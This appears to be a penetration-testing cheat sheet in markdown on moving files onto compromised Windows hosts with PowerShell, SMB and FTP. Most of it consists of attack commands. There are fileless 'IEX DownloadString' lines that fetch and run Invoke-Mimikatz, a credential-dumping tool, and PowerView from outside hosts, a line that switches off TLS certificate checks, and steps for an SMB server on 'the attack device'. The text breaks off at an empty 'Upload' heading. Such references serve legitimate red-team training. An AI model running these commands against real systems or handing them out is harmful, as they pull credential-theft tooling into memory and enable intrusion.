 # *Windows*
### *Download*
- ##### PowerShell
	- **System.Net.WebClient**
		- Download a file over `HTTP, HTTPS or FTP`.
		- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
		- Fileless method using `Invoke-Expression` (run from memory).
			- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
			- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
	- **Invoke-WebRequest**
		- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
		- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
	- **Common Errors**
		- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
			- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
		- Certificate isn't trusted
			- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
- ##### SMB
	- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
		- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
			- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
			- `copy n:\file` on the target device. 
		- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
- ##### FTP
	-  Configure an `FTP` server on our device with Python module `pyftpdlib`.
		- `sudo pip3 install pyftpdlib`
		- By default, `pyftpdlib` uses port `2121`.
		- Start the server using `sudo python3 -m pyftpdlib --port 21`
		- Using PowerShell
			- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
			- In case **Non-Interactive Shell**, create an FTP command file to download a file.
				- `echo open <ip> > ftpcommand.txt`
				- `echo USER anonymous >> ftpcommand.txt`
				- `echo binary >> ftpcommand.txt`
				- `echo GET file.txt >> ftpcommand.txt`
				- `echo bye >> ftpcommand.txt`
				- `ftp -v -n -s:ftpcommand.txt`
### *Upload*
